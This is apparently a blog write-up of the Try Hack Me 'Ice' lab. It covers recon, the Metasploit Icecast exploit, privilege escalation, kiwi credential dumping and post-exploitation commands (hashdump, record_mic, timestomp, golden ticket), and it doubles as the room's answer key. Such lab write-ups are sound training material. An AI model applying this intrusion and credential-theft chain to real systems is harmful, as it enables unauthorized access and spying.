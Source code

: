 ```yaml
---
title: Try Hack Me - Ice
layout: post
category: writeup
---
```



# Try Hack Me: ICE
```
export IP=10.10.201.119
```

## Task 2 [recon]

```
nmap -oN nmap.init.out -sC -sV -A -T4 -p- $IP
```

```
Nmap scan report for 10.10.201.119
Host is up (0.11s latency).
Not shown: 65523 closed ports
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-date: 2020-05-21T04:28:37+00:00; 0s from scanner time.
5357/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
8000/tcp  open  http               Icecast streaming media server
|_http-title: Site doesn't have a title (text/html).
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
49160/tcp open  msrpc              Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
Network Distance: 2 hops
Service Info: Host: DARK-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: 1h15m00s, deviation: 2h30m00s, median: 0s
|_nbstat: NetBIOS name: DARK-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:59:6e:ff:11:54 (unknown)
| smb-os-discovery:
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Dark-PC
|   NetBIOS computer name: DARK-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-05-20T23:28:28-05:00
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-05-21T04:28:28
|_  start_date: 2020-05-21T03:26:10

TRACEROUTE (using port 23/tcp)
HOP RTT       ADDRESS
1   114.00 ms 10.11.0.1
2   114.08 ms 10.10.201.119

```


1. What port is MSRDP?
```
3389
```

2. What service is running on port 8000?
```
Icecast
```

3. What is the hostname of the machine?
```
DARK-PC
```

## Task 3 [gain access]

```
searchsploit icecast
```

```
-------------------------------------------------------------------------- -----------------------------------------
 Exploit Title                                                            |  Path
                                                                          | (/opt/exploit-database/)
-------------------------------------------------------------------------- -----------------------------------------
Icecast 1.1.x/1.3.x - Directory Traversal                                 | exploits/multiple/remote/20972.txt
Icecast 1.1.x/1.3.x - Slash File Name Denial of Service                   | exploits/multiple/dos/20973.txt
Icecast 1.3.7/1.3.8 - 'print_client()' Format String                      | exploits/windows/remote/20582.c
Icecast 1.x - AVLLib Buffer Overflow                                      | exploits/unix/remote/21363.c
Icecast 2.0.1 (Win32) - Remote Code Execution (1)                         | exploits/windows/remote/568.c
Icecast 2.0.1 (Win32) - Remote Code Execution (2)                         | exploits/windows/remote/573.c
Icecast 2.0.1 (Windows x86) - Header Overwrite (Metasploit)               | exploits/windows_x86/remote/16763.rb
Icecast 2.x - XSL Parser Multiple Vulnerabilities                         | exploits/multiple/remote/25238.txt
icecast server 1.3.12 - Directory Traversal Information Disclosure        | exploits/linux/remote/21602.txt
-------------------------------------------------------------------------- -----------------------------------------
Shellcodes: No Results
```

1. What type of vulnerability is present in the running version of Icecast?
```
execute code overflow
```

2. What is the CVE number of this vuln?
```
CVE-2004-1561
```

4. What is the full path for the exploit module in metasploit?
```
exploits/windows/http/icecast_header
```

6. What is the required exploit module setting?
```
rhosts
```

## Task 4 [escalate]

```
meterpreter > getuid
Server username: Dark-PC\Dark
```

```
meterpreter > sysinfo
Computer        : DARK-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```

```
meterpreter > run post/multi/recon/local_exploit_suggester

[*] 10.10.201.119 - Collecting local exploits for x86/windows...
[*] 10.10.201.119 - 31 exploit checks are being tried...
[+] 10.10.201.119 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.201.119 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
[+] 10.10.201.119 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.201.119 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.201.119 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.201.119 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.201.119 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.201.119 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.201.119 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```

1. Whats the name of the resulting shell?
```
meterpreter
```

2. What user is running the Icecast process?
```
Dark
```

3. What build of Windows is the system?
```
7601
```

4. What is the architecture of the process we are running?
```
x64
```


6. What is the full path for the first returned exploit suggsted by the local_exploit_suggester?
```
exploit/windows/local/bypassuac_eventvwr
```

10. What is the name of the one option that needs to be changed?
```
LHOST
```

14. What permission did we gain that allows us to take ownership of files?
```
SeTakeOwnershipPrivilege
```

## Task 5 [looting]

2. What is the name of the printer service?
```
spoolsv.exe
```

4. What user are we now?
```
NT AUTHORITY\SYSTEM
```

7. Which command allows us to retrieve all credentials (kiwi)?
```
creds_all
```

8. What is Dark's password?
```
Password01!
```

## Task 6 [post-exploitation]

2. What is the command to dump all password hashes on the system?
```
hashdump
```

3. What command allows us to watch the remote users desktop in realtime?
```
screenshare
```

4. Record from a microphone from the system?
```
record_mic
```

5. What command allows us to modify timestamps of files on the system?
```
timestomp
```

6. What mimikatz command creates a "golden ticket" for authentication to kerberos?
```
golden_ticket_create
```

## Task 7 [extra credit]

ouch, my brain